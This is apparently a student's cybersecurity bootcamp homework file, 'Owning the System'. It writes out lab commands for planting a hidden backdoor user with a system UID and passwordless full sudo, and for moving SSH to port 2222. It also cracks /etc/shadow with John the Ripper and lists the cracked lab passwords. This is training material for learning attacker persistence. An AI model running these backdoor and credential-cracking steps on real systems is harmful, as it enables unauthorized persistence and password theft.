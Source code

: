 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `Your solution command here`
useradd -M sysd
or
useradd --no-create-home sysd

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 277 sysd

4. Give your secret user the same GID:
   - groupmod -g 277 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo 

   user privilege specification
   sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:
sudo ls
sudo -l

    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

#Port 222
Port 2222
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::


I checked the port was open with -

ss -tulpn | grep 2222
netstat -tulpn | grep 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo service sshd restart

2. Exit the `root` account:
    - ctrl + D pr Exot

3. SSH to the target machine using your `sysd` account and port `2222`:
 sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
 sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

     sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    -sudo su

regarding the john crack, I have sudo privileges and so I am able to do it from sysd also.

    I know it is best to make a copy and crack that first but seeing as I am trying to have as little footprint as possible and also because I am wiping the VM afterwards-

    sudo john shadow
computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
home             (sysd)
Goodluck!        (student)


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

